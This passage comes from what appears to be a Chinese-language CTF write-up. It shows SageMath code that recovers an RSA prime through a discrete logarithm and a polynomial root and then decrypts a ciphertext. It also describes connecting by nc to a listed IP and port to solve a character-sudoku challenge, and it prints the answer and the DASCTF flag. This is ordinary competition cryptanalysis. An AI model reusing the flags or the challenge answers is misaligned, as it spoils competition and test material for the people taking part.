90809390932986616805533168714686834174965211242863201076482127152571774960580915318022303418111346406295217571564155573765371519749325922145875128395909112254242027512400564855444101325427710643212690768272048881411988830011985059218048684311349415764441760364762942692722834850287985399559042457470942580456516395188637916303814055777357738894264037988945951468416861647204658893837753361851667573185920779272635885127149348845064478121843462789367112698673780005436144393573832498203659056909233757206537514290993810628872250841862059672570704733990716282248839

dp = 379476973158146550831004952747643994439940435656483772269013081580532539640189020020958796514224150837680366977747272291881285391919167077726836326564473


c = 57248258945927387673579467348106118747034381190703777861409527336272914559699490353325906672956273559867941402281438670652710909532261303394045079629146156340801932254839021574139943933451924062888426726353230757284582863993227592703323133265180414382062132580526658205716218046366247653881764658891315592607194355733209493239611216193118424602510964102026998674323685134796018596817393268106583737153516632969041693280725297929277751136040546830230533898514659714717213371619853137272515967067008805521051613107141555788516894223654851277785393355178114230929014037436770678131148140398384394716456450269539065009396311996040422853740049508500540281488171285233445744799680022307180452210793913614131646875949698079917313572873073033804639877699884489290120302696697425


c1 = 78100131461872285613426244322737502147219485108799130975202429638042859488136933783498210914335741940761656137516033926418975363734194661031678516857040723532055448695928820624094400481464950181126638456234669814982411270985650209245687765595483738876975572521276963149542659187680075917322308512163904423297381635532771690434016589132876171283596320435623376283425228536157726781524870348614983116408815088257609788517986810622505961538812889953185684256469540369809863103948326444090715161351198229163190130903661874631020304481842715086104243998808382859633753938512915886223513449238733721777977175430329717970940440862059204518224126792822912141479260791232312544748301412636222498841676742208390622353022668320809201312724936862167350709823581870722831329406359010293121019764160016316259432749291142448874259446854582307626758650151607770478334719317941727680935243820313144829826081955539778570565232935463201135110049861204432285060029237229518297291679114165265808862862827211193711159152992427133176177796045981572758903474465179346029811563765283254777813433339892058322013228964103304946743888213068397672540863260883314665492088793554775674610994639537263588276076992907735153702002001005383321442974097626786699895993544581572457476437853778794888945238622869401634353220344790419326516836146140706852577748364903349138246106379954647002557091131475669295997196484548199507335421499556985949139162639560622973283109342746186994609598854386966520638338999059

g = 2

G = GF(y)

x = log(G(c1), G(g))

P.<y> = PolynomialRing(ZZ)

f = 2019*y^2 + 2020*y^3 + 2021*y^4 - x

p = int(f.roots()[0][0])

m = int(pow(c, dp, p))

print(long_to_bytes(m))
```


### 密码人集合 

ip: 

82.157.25.233

port: 38700

protocol: tcp

nc连上 数独题 把汉字对应1-9编排 求出解



> 输入abcdefghi即可。

> \> 请输入答案字符串：

> 拿要第我西湖论剑一湖西论剑要一我拿第一剑我论第拿要西湖第论湖要剑西一我拿西我要一拿第剑湖论剑一拿湖我论第要西要拿一第湖我西论剑论湖剑西一要拿第我我第西拿论剑湖一要

> 恭喜！答案正确，这是你的奖励DASCTF{b883513d6d97e0e9e8a3e4dc28b02621}。

> 继续开启下一站的旅程吧。

转换为汉字输出即可拿到flag b883513d6d97e0e9e8a3e4dc28b02621
